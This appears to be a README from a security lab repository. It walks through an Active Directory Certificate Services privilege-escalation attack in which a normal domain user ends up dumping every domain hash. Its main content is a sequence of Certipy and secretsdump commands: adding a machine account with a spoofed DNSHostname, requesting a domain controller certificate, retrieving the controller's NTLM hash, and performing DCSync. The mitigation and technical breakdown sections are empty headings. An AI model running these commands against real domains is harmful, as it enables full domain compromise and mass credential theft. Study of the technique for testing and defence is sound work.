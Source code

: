 # The Attack In Brief
1. By default, A regular AD user can add up to 10 computers to the domain.
2. After a user adds a computer to the domain, he becomes its owner.
3. Being a computer's owner gives the user the right to change the computers `DNSHostname` property.
4. By changing this property to be a domain controller's `DNSHostname`, we can request a certificate for it from ADCS.
5. Using the domain controller's certificate, we can obtain that computer's NTLM hash.
6. And with that, we can request a complete copy of the domain hashes a.k.a perform a **DCSync** attack.

# Tools Needed
1. Certipy (https://github.com/ly4k/Certipy)
2. Impacket (https://github.com/SecureAuthCorp/impacket)

# Lab setup And Conditions
## 1. Domain Controller with ADCS Role installed [DC.LAB.Local: 192.168.126.129]
![dc-with-adcs-installed](dc-with-adcs-installed.jpg)

## 2. Kali machine [192.168.145.128]

## 3. Normal User Account (No Special Privileges)
![normal-ad-user](normal-ad-user.jpg)

# Attack Demonstration
## 1. Joining A Machine Account to The Domain with A Spoofed DNSHostname property
Command: `certipy account create <DOMAIN_FQDN>/<AD_USER>@<DC_IP> -user '<NEW_COMPUTER_NAME>' -dns <DC_FQDN>`

![creating-computer-with-spoofed-dns-hostname](creating-computer-with-spoofed-dns-hostname.jpg)

![proof-of-dns-hostname-spoofing](proof-of-dns-hostname-spoofing.jpg)

## 2. Requesting A Domain Controller's Certificate
we must first know the certificate authority's name.

This can be done by visiting the `/certsrv` web directory and authenticating:

![finding-out-the-ca-name](finding-out-the-ca-name.jpg)

Command: `certipy req -dc-ip <DC_IP> <DOMAIN_FQDN>/'<ADDED_COMPUTER_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -ca <CA_NAME> -template Machine`
Password = same password generated from the computer creation in the previous step

![requesting-dc-cert](requesting-dc-cert.jpg)

## 3. Using the Domain Controller's Certificate To Get its NTLM Hash
Command: `certipy auth -pfx <GENERATED_PFX_CERTIFICATE>`

![got-nt-hash-for-dc](got-nt-hash-for-dc.jpg)

## 4. Performing `DCsync` As The Impersonated Domain Controller
Command: `secretsdump.py -just-dc <DOMAIN_FQDN>/'<DC_NAME_ENDING_WITH_DOLLAR_SIGN>'@<DC_IP> -hashes :<RETRIEVED_HASH>`

![dc-sync-with-dc-ntlm-hash](dc-sync-with-dc-ntlm-hash.jpg)

# Technical Breakdown
1. the default AD user quota
2. the permissions for the computer certificate template
3. the granted ownership that comes with joining a machine to a domain + what we can modify
4. requesting certs
5. grabbing the NTLM hash

# mitigation

# references and credits